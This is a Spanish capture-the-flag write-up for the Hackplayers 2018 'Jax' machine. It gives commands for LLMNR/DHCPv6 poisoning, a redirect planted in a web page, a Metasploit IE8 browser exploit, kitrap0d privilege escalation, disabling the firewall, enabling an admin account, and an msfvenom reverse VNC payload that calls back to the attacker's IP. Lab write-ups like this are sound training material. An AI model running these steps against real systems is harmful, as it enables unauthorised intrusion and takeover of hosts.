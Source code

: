# Hackplayers 2018 - JAX

Máquina "Jax": 10.42.0.152

```
$ nmap -sV 10.42.0.152
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
```

Esta máquina solo expone el servicio IIS que son visibles desde el exterior. Después de realizar pruebas de fuzzing con diccionarios no se encuentran archivos ocultos en el servidor web.

Si abrimos Wireshark, habrá un poco de tráfico de transmisión de Jax, como LLMNR, NBT-NS y DHCPv6.

Usando la herramienta *Responder* podemos intentar envenenar peticiones LLMNR y NBT-NS, pero esto no nos dará ninguna conexión SMB o HTTP.

![](img/jax-responder1.png)

Intentamos montar un servicio DHCPv6 utilizando *dnsmasq* y habilitamos `IP forwarding` en nuestra máquina.

```
$ ifconfig tap0 inet6 add 1234::1/64
$ cat dnsmasq.conf
bogus-priv
interface=tap0
dhcp-range=::100,::1ff,constructor:em1
enable-ra
dhcp-option=option6:dns-server,[1234::1]
log-queries
log-dhcp
$ sysctl -w net.ipv6.conf.all.forwarding=1
$ sysctl -w net.ipv4.ip_forward=1
$ iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

En menos de un minuto, Jax envía una solicitud DHCPv6 y la asignó la dirección ip `1234::26b`.

![](img/jax-dhcpv6.png)

Se tarda mucho tiempo en que se produzca un tráfico de solicitud de difusión LLMNR para WPAD, lo que nos permite obtener el hash NetNTLMv2 del usuario *Ihacklabs* y obtener todo el tráfico HTTP desde ese momento. El resultado de romper este hash es una contraseña vacía.

![](img/jax-responder-hash.png)

En el tráfico interceptado por Wireshark, aparece una solicitud HTTP a la máquina Sammy.

```
http://10.42.0.153/wordpress/cepheus.html
```

![](img/jax-wireshark-cepheus.png)

Aunque se encontró la solicitud HTTP con Responder, es mucho más fácil realizar un ataque de envenenamiento ARP a Jax para interceptar todo su tráfico.

El archivo `cepheus.html` se encuentra en la máquina *Sammy* a la que hemos accedido anteriormente, pero en el caso de que no se pueda acceder a esta máquina, habría que utilizar un ataque MiTM.

Si observamos los logs de Apache en Sammy, veremos que la solicitud se envía cada 5 minutos y el *User-Agent* corresponde a Internet Explorer y Windows 7.

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

Modificamos este archivo para realizar una redirección y reenviar la solicitud a nuestra máquina `10.41.0.201`.

```
<meta http-equiv="refresh" content="0;URL='http://10.41.0.201/'" />
```

Existen algunas vulnerabilidades en los exploradores de Internet Explorer 8 en metasploit, muchas de las cuales requieren que Java esté instalado en la máquina de destino, por lo que podemos renunciar a dichos vectores de ataque. El más adecuado para nuestro escenario debe ser "MS11-003 Microsoft Internet Explorer CSS Recursive Import Use After Free", si ha leído la descripción de esta vulnerabilidad, encontrará que esta vulnerabilidad requiere la versión .NET 2.0.50727, esta versión y User-Agent. Lo mismo es cierto.

```
This module exploits a memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page  containing a recursive CSS import, a C++ object is deleted and later reused. This leads to arbitrary code execution. This exploit utilizes a combination of heap spraying and the .NET 2.0 'mscorie.dll' module to bypass DEP and ASLR. This module does not opt-in to ASLR. As such, this module should be reliable on all Windows versions with .NET 2.0.50727 installed
```

### Exploit

```
use exploit/windows/browser/ms11_003_ie_css_import
```

![](img/jax-browserexploit.png)

Cuando el navegador es redirigido y visita nuestra pagina con el exploit conseguimos una shell de meterpreter en la maquina y podemos leer la flag en el escritorio del usuario *Ihacklabs*.

![](img/jax-meterpreter-flag.png)


### Escalada de privilegios

Usamos el siguiente exploit para elevar privilegios en la máquina

```
use exploit/windows/local/ms10_015_kitrap0d
```

![](img/jax-elevate.png)


### Desactivar el cortafuegos

Desactivamos el firewall para poder acceder a la máquina de forma remota.

```
netsh firewall set opmode mode=disable
```

Una vez desactivado, tenemos acceso a los siguientes puertos y servicios.

![](img/jax-nmap2.png)


### Activar el usuario "Administrador"

Activamos el usuario administrador y cambiamos la contraseña.

```
net user Administrator Patatas123 /active:yes
```


### Acceso SMB winexe.

A partir de este momento podrémos utilizar winexe/psExec para acceder a la máquina a través de SMB sin necesidad de utilizar el exploit de navegador en el caso de que perdamos la conexión.

![](img/jax-winexe.png)


### Habilitar RDP

Se intentó habilitar el servicio RDP, pero al utilizar licencia de Windows Home, este servicio no está disponible.


### Acceso por VNC

Generamos un ejecutable y lo subimos a través de SMB. Lo ejecutamos y tenemos una sesión de VNC en la máquina Jax.

```
$ msfvenom  -p windows/vncinject/reverse_tcp LHOST=10.42.0.201 LPORT=4445 -f exe -o vnc.exe
$ smbclient '//10.42.0.152/C$' -U 'administrator%Patatas123'
put vnc.exe
```

![](img/jax-flag.png)


### VirtualBox

El siguiente paso del reto es resolver una prueba de exploiting en una máquina virtual de VirtualBox.

Lo mas fácil es arrancar la máquina como root modificando el grub

```
linux .... init=/bin/bash
```

![](img/jax-exploiting-flag.png)
